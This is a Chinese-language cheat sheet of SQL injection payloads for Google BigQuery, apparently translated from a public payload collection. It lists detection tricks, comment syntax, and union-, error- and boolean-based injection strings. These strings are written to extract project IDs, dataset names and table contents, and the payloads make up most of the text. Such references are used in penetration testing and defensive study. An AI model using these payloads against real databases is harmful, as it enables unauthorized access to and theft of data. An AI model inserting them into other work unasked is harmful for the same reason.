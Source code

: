 # Google BigQuery SQL注入

## 摘要

* [检测](#检测)
* [BigQuery注释](#bigquery-注释)
* [基于BigQuery联合](#bigquery-联合-based)
* [基于BigQuery错误](#bigquery-错误-based)
* [基于BigQuery布尔值](#bigquery-布尔值-based)
* [基于BigQuery时间](#bigquery-时间-based)
* [参考资料](#参考资料)

## 检测

* 使用经典单引号触发错误：`'`
* 使用反引号表示法识别BigQuery：```SELECT .... FROM `` AS ...```

```ps1
# 收集项目ID
select @@project_id

# 收集所有数据集名称
select schema_name from INFORMATION_SCHEMA.SCHEMATA

# 从特定项目ID和数据集中收集数据
select * from `project_id.dataset_name.table_name`
```

## BigQuery注释

```ps1
select 1#从这里开始不起作用
select 1/*在这两者之间不起作用*/
```

## 基于BigQuery联合

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## 基于BigQuery错误

```ps1
# 基于错误 - 除零
' OR if(1/(length((select('a')))-1)=1,true,false) OR '

# 基于错误 - 转换：select CAST(@@project_id AS INT64)
dataset_name.column_name` union all select CAST(@@project_id AS INT64) ORDER BY 1 DESC#
```

## 基于BigQuery布尔值

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## 基于BigQuery时间

* BigQuery语法中不存在基于时间的函数。

## 参考资料

* [BigQuery SQL注入备忘单 - Ozgur Alp - 2月14日](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery文档 - 查询语法](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery文档 - 函数和操作符](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web应用程序防火墙绕过之旅：利用“Google BigQuery”SQL注入漏洞 - 作者Duc Nguyen The, 2020年3月31日](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)